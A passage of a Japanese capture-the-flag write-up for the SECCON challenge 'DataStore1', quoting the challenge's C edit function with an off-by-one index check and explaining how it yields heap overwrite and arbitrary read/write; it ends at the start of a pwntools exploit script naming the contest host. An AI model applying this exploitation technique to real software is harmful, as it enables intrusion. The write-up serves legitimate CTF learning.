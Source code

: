 想定解はprctlを使ってfsの先をを変更して、canaryの位置を変えるそうです。これはきれい。

# DataStore1

見た目はノート問です。配列、文字列、整数、小数をわけて格納することができるデータ構造を、追加したり編集したりできます。

配列を編集するときに、`idx > arr->count`がエラーの条件になっていて、`idx = arr->count`の時は通ってしまいます。

```c
static int edit(data_t *data){
        if(!data)
                return -1;

        printf("\nCurrent: ");
        show(data, 0, false);

        switch(data->type){
                case TYPE_ARRAY:
                        {
                                arr_t *arr = data->p_arr;

                                printf("index: ");
                                unsigned idx = getint();
                                if(idx > arr->count)
                                        return -1;

                                printf("\n"
                                                "1. Update\n"
                                                "2. Delete\n"
                                                "> ");

                                switch(getint()){
                                        case 1:
                                                edit(&arr->data[idx]);
                                                break;
                                        case 2:
                                                remove_recursive(&arr->data[idx]);
                                                break;
                                }
                        }
                        break;
```

これを使って、隣接チャンクの先頭8バイトが書き換えられるようになります。str_tは先頭がサイズなので、隣接チャンクをStringのデータにすることで、先頭8バイトを書き換えるとStringの文字列長を伸ばせます。さらにそのStringを編集することで、以降のチャンクを自由に書き換えられるようになります。あとはAAR/Wを作ってしまえばおしまいです。

```python
from pwn import *
#context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './chall'
HOST = 'datastore1.seccon.games'
PORT = 4585
#HOST = '172.17.0.3'
#PORT = 9999

elf = ELF(TARGET)
def start():
	if not args.R:
		print("local")
		#return process(TARGET)
		return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
		# return process(TARGET, stdout=process.PTY, stdin=process.PTY)
```